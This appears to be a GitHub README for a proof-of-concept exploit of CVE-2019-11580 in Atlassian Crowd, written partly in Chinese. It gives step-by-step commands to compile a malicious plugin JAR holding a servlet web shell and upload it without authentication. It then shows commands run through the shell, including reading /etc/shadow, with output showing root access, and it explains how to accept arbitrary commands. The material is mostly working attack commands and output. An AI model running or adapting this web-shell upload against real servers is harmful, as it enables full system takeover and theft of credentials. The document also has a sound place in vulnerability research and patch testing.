




# CVE-2019-11580
## Atlassian Crowd and Crowd Data Center RCE

## Usage:
`python CVE-2019-11580.py http://xx.xx.xx.xx/`



#### Crowd-2.11.0 Vuln_Version Donwload
`https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-2.11.0.tar.gz`

` Powered by Atlassian Crowd Version: 2.11.0 (Build:#725 - 2017-01-11)`



`http://10.10.20.166:8095/crowd/admin/uploadplugin.action`



`http://10.10.20.166:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow`




### 0x01 compile for rce.jar
`javac -cp servlet-api.jar com/cdl/shell/exp.java`

`zip -r rce.jar atlassian-plugin.xml ./com`

```
./compile.sh
updating: atlassian-plugin.xml (deflated 54%)
updating: com/ (stored 0%)
updating: com/cdl/ (stored 0%)
updating: com/cdl/shell/ (stored 0%)
updating: com/cdl/shell/exp.java (deflated 59%)
updating: com/cdl/shell/exp.class (deflated 45%)

```
### 0x02 upload rce.jar to crowd/admin/uploadplugin.action
```
curl -k -H "Content-Type: multipart/mixed" \
  --form "file_cdl=@rce.jar" http://10.10.20.166:8095/crowd/admin/uploadplugin.action
  
Installed plugin /opt/atlassian/crowd/apache-tomcat/temp/plugindev-1059463178748466378rce.jar

```

### 0x03 get shell

```
curl "http://10.10.20.166:8095/crowd/plugins/servlet/exp?cmd=whoami"
>>> root

curl "http://10.10.20.166:8095/crowd/plugins/servlet/exp?cmd=id"
>>> uid=0(root) gid=0(root) groups=0(root)

```

##### 自定义cmd值：

```
https://github.com/lc/research/blob/master/CVE-2019-11580/atlassian-shell/com/cdl/shell/Cdl.java
思路参考: https://www.t00ls.net/articles-51978.html
原代码String cmd="whoami";
修改为String cmd=String.valueOf(req.getParameter("cmd"));

```

### vuln version
```
Affected Versions

Fixed Version

2.1.0, 2.1.1, 2.1.2, 2.2.0, 2.2.1, 2.2.2, 2.2.3, 2.2.4, 2.2.5, 2.2.6, 2.2.7, 2.2.8, 2.2.9, 2.3.0, 2.3.1, 2.3.2, 2.3.3, 2.3.4, 2.3.5, 2.3.6, 2.3.7, 2.3.8, 2.3.9, 2.3.10, 2.4.0, 2.4.1, 2.4.2, 2.4.3, 2.4.4, 2.4.5, 2.4.6, 2.4.7, 2.4.8, 2.4.9, 2.4.10, 2.4.11, 2.5.0, 2.5.1, 2.5.2, 2.5.3, 2.5.4, 2.5.5, 2.5.6, 2.5.7, 2.6.0, 2.6.1, 2.6.2, 2.6.3, 2.6.4, 2.6.5, 2.6.6, 2.6.7, 2.7.0, 2.7.1, 2.7.2, 2.8.0, 2.8.1, 2.8.2, 2.8.3, 2.8.4, 2.8.6, 2.8.7, 2.8.8, 2.9.1, 2.9.2, 2.9.3, 2.9.4, 2.9.5, 2.9.6, 2.9.7, 2.10.1, 2.10.2, 2.10.3, 2.10.4, 2.11.0, 2.11.1, 2.11.2, 2.12.0, 2.12.1, 3.0.0, 3.0.1, 3.0.2, 3.0.3, 3.0.4

3.0.5

3.1.0, 3.1.1, 3.1.2, 3.1.3, 3.1.4, 3.1.5

3.1.6

3.2.0, 3.2.1, 3.2.2, 3.2.3, 3.2.4, 3.2.5, 3.2.6, 3.2.7

3.2.8

3.3.0, 3.3.1, 3.3.2, 3.3.3, 3.3.4

3.3.5

3.4.0, 3.4.1, 3.4.2, 3.4.3

3.4.4
```

### 参考链接

```
https://www.t00ls.net/articles-51978.html
https://www.corben.io/atlassian-crowd-rce/
https://github.com/lc/research/tree/master/CVE-2019-11580/atlassian-shell
```
